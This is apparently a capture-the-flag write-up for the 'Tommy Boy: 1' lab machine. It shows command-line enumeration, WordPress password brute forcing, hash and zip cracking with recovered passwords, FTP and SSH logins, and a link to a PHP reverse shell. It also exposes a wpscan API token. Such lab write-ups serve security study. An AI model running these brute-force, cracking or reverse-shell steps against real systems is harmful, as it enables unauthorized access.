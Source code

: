 # TOMMY BOY: 1

# 1 Information gathering
## 1.1 Discovery host
`nmap -n -Pn -F 192.168.196.1/24 -oN host_discovery.txt`
![658e8dd5ec063ce4f0cf0e74b55cfbed.png](./_resources/75a1c51c20bd44d1a555735df259b773.png)


## 1.2 Service enum
`nmap -sV -sC -p- 192.168.196.6 -oN full_service_enum-sC.txt`
![11fa5edf7e4938bae413be19e3f7beb4.png](./_resources/0e0299dd2a0c4b3396a3f4b51f427926.png)

`nmap -sV -sU -F 192.168.196.6 -oN udp-sC-sV.txt`

## 1.3 Web 80
### 1.3.1 Gobuster enum web content
`gobuster dir -u http://192.168.196.6 -w /usr/share/wordlists/dirb/big.txt -t 50 -x php,bkp,bak,txt,html,aspx -f -o info-slash.txt`
Here we can grep responses that dont contain `7` (starting number for default response size):
![a2e1d1919eaeb2eafe036e118baf8669.png](./_resources/d8e09f94168e478f984cd4772525e3b3.png)

`gobuster dir -u http://192.168.196.6 -w /usr/share/wordlists/dirb/big.txt -t 50 -x php,bkp,bak,txt,html,aspx -o info.txt`

And here, we can grep responses that dont contain `302`:

![377c51c3851031d039d6e85244ece65a.png](./_resources/0d2f83f1b7c246b49f043b3c0961e4ab.png)

![7bcaecbd5080985313ea7d05486faba1.png](./_resources/b6bd04886b8e47c8a11f7288e825d57a.png)

![5c69086f685644983d4b721991720c63.png](./_resources/af86d7f258ec4ba9a40294507fb37992.png)

### 1.3.2 Html source code
![da4e1fa0bfb2f3c44e6d9fa2ff71a9b7.png](./_resources/f16c8efc829640e9adc047f547000e26.png)
There is a conversation.
There is a hint to find the blog name. The youtube video provided there says: “prehistoric forest”.
We tried use it as folder, and bingo!
![c1833446dc7e47bc4cbff8d7a0072105.png](./_resources/e7a1a0d49d8c46eaaf419b896c219bea.png)

### 1.3.3 Wordpress found
`gobuster dir -u http://192.168.196.6/prehistoricforest/ -w /usr/share/wordlists/dirb/big.txt -t 50 -x php,bkp,bak,txt,html,aspx -f -o info-slash.txt`

![9bfe5c495ef9258eef2cc20d52f9ff41.png](./_resources/383ccd374d1f4f34b5e8127533321afd.png)

#### 1.3.3.1 Wpscan
`wpscan --url http://192.168.196.6/prehistoricforest/ -e ap,at,tt,cb,dbe,u1-20,m --plugins-detection aggressive --disable-tls-checks --api-token 7MBL9noH6s6pOW5qAM6boXVS5wEMayvrBaaoBbMaIKg -o all-info.txt --ignore-main-redirect`

#### 1.3.3.2 Wordpress protected page
![84049290c07b861013556e388cc4bf00.png](./_resources/66f5982a6e574ff49941c2d8e8fd21f5.png)

Tom jr asked a question, and there is a interesting comment:

![da78716a22383f34f7085f60d4b305c7.png](./_resources/513578f0b1024afab94edce136dae94e.png)

Using `strings` on the image found in the directory mentioned, there is a MD5 hash:

![b2c81ce84824fe6e342b70aadccdc50b.png](./_resources/a919d8af0b904d54b04b3d5e931c9da9.png)
`ce154b5a8e59c89732bc25d6a2e6b90b`

![50a36a5563590094acc32c0ecf663a33.png](./_resources/291373b931ed4cb79377c3d22bb2db52.png)
`spanky`

Now we can unprotect this page and read it:

![04be124c8af1ea346819447848200483.png](./_resources/ef24e1635c014fa283bcab2dd3aedabf.png)
![b17f52db64eb5d3c35283187e12bc395.png](./_resources/8462515d0f2a4ed3be3d3af3290ea4b9.png)

## 1.4 Simple bash script to find intermittent ftp port
With the above tips found previously, we can search this ftp port using a simple script:
```
#!/bin/bash

while true; 
do
	echo "[!] Executando varredura!"
   	nmap -p- -sV -T4 192.168.196.6 -n -Pn | grep -i ftp > teste.txt

   	if [ -s ./teste.txt ];
	then
		cat teste.txt
		exit 0
	fi
done
```

# 2 Exploitation
## 2.1 Brute force with wpscan
`wpscan --url http://192.168.196.6/prehistoricforest/ -P /root/shared/rockyou.txt -U users.txt -t 100`

![ec2581a159efe01c8e819d749803ef69.png](./_resources/7eb3eae7a782465ea143e096b39f7c54.png)

## 2.2 Login as nickburns using simple password
With the previous tip about logging in to ftp as nickburns, we tried using the username as the password and it works:

![c1229df1fcb0993b7058f7f90aa4ae57.png](./_resources/fd570b05cbd04ec4bc0492e1416f5845.png)
![3fc6379d8ddf9b3d351dc65d5c7dafb3.png](./_resources/38b41202977c469e9f32f732d27a0cd2.png)

## 2.3 Bypass user-agent based blocking
Accessing the cited directory, we can't view the content. But there is a message with a tip:

![69fb23bae6aafb159f8543062f6f1008.png](./_resources/8de5fe233e984be98b14fba3d3bb80bb.png)

Changing the user-agent to another, an iphone's agent, we can view the full content:

https://developers.whatismybrowser.com/useragents/explore/operating_system_name/ios/
![0ad5561dd94442f8ffb94f6d764603b0.png](./_resources/11c641314f714585a28da7ec9afb58f3.png)
Another tip!

### 2.3.1 Wfuzz enum web content
`wfuzz -u "http://192.168.196.6/NickIzL33t/FUZZ.html" -w root/shared/rockyou.txt -f info.txt -H "User-Agent: Mozilla/5.0 (iPhone; CPU iPhone OS 12_2 like Mac OS X) "`

We receveiced a `200` response with different size:

![77bd6ff06894d3ebe4691322dc304c7e.png](./_resources/e40d8a90d4cc4e4eba00178ea6ca3d22.png)

### 2.3.2 New file - fallon1.html
![778a8c7ca1a3de623f20c306cc0330f8.png](./_resources/c65c2f4511a34a0fb92170725fb59b59.png)

#### 2.3.2.1 A hint
![a6ece17da2d1d4b59f751e094d3f329a.png](./_resources/8c2fa19c6eaf4d73ad669cf7c9637549.png)

#### 2.3.2.2 A zip file with password
![0d86f4abadc393b10f38527a174d69d7.png](./_resources/da9ca7afe6234e4e803ea624ba752d2a.png)

#### 2.3.2.3 Upload cababilities
![80b4b2e3ed3574c08af0f3d8edb497e0.png](./_resources/e518e479ed324c549e21621be042ffd6.png)
Without success here.

### 2.3.3 Generate wordlist with Cruch and cracking zip file with John

`crunch 13 13 -t bev,%%@@^1995 > wordlist.txt`

`zip2john t0msp4ssw0rd.zip > hash.hash`

`john hash.hash wordlist.txt`

Or you can user fcrackzip:

`fcrackzip -v -u -D -p wordlist.txt t0msp4ssw0rdz.zip`

![f4fdee485d2ef94aa40596743d92f818.png](./_resources/247028d5cda1454e8ca9f0be7fbe124e.png)
bevH00tr$1995

![399de380e4f1a29a08d22ec3455e510f.png](./_resources/d87cb02df28e43a78c1e744001e42518.png)

### 2.3.4 Another hint that reveals a page with info
![dd543fa7906c4852e6b1dd3d5834edf6.png](./_resources/f06331d37f224910918e2667f68b92e9.png)

![e5d6537cb822b77ccbff65a5b2ebf92a.png](./_resources/757ce0a918904da1ba120fa3f63d1e42.png)
fatguyinalittlecoat1938!!

### 2.3.5 Login as bigtommysenior
![e2f9b511a91784f6a3fb008076b512af.png](./_resources/5109045aeae54ffca292ea451d6a2e86.png)


# 3 Post-exploitation
Was used LinEnum.sh to enumerate this Linux, but without good results.
At this points, the option was manually find writable files due LinEnum.sh don't found the necessary file.

`find / -perm -222 -type d 2>/dev/null`

![aec84f362889f16aaf0ee1e0de07e0b7.png](./_resources/c8554937aad148669fa7fa6865605902.png)
Here we can create a reverse shell file, use it and verify if the web system uses another user.

## 3.1 Reverse shell (pentest monkey)
https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php
![a0771ad1846c6b2f3ff2b20e9d265ee9.png](./_resources/c73f22ecae044de998995edd40392b36.png)

It is worth remembering that this machine does not have root escalation, so we finish here.
